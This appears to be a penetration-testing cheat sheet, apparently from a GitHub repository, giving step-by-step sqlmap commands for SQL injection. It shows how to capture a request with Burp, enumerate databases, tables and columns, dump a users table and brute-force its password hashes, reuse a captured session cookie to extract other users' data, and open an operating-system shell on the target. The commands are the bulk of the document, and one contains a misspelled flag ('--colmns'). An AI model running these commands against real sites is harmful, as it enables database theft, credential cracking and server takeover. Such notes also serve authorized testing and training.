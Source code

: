 ## SQLmap

For this attack you should capture the request of an input parameter with burp. For this, you just have to intercept the request (login for example) and then just copy the request and save it in a txt file and run sqlmap with:

**Getting the cookie**

To get cookies, you can do it inspecting the page, then go to console and in the bottom left type ````document.cookie````, hit enter and you'll get it.

````
sqlmap -r <burpsuite txt file> --dbs
````


````
sqlmap -r <txt file from burpsuite> -D <database name> --tables
````

````
sqlmap -r <txt file from burpsuite> -D <database name> --tables --columns
````

````
sqlmap -r <txt file from burpsuite> -D <database name> --dump
````

````
sqlmap -r <txt file from burpsuite> -D <database name> --tables -T users
````

**Dump All**

if you use for example:

````
sqlmap -r <burpsuite txt file> -D <ddbb> -T <table> --dump-all
````
And the case is if the table is the users table, with dump all sqlmap will ask to bruteforce the hashes, should be YES.


--------------------------------
**Lateral Movement**

On a website attack, you can use your session cookie (if you have an account) to extract information of another user from the table with sqlmap.

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" --dbs    #for Database
````

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" -D *DATABASE NAME* --tables #for Tables of selected Database
````

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" -D *DATABASE NAME* -T *TABLE NAME* --colmns #for Column names
````

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" -D *DATABASE NAME* -T *TABLE NAME* --dump #dump tables
````

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" --os-shell
````

Last one will give us a shell and with ````help```` cmd we can see all the commands.

